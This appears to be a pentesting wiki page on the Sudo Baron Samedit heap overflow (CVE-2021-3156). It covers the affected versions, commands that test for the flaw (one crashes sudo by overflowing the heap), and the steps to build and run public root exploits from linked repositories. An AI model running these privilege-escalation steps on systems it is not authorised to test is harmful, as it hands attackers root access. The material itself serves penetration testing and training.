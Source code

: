 ```yaml
---
description: CVE-2021–3156
---
```


# Sudo Baron Samedit


# Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.  

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

# Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.
```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit.
For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit_nss.py:
```bash
python3 exploit_nss.py
``` 
For Linux distribution that glibc has no tcache support:
```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)  
On the vulnerable host we can do:
```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```

{% endtab %}
{% endtabs %}


## References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
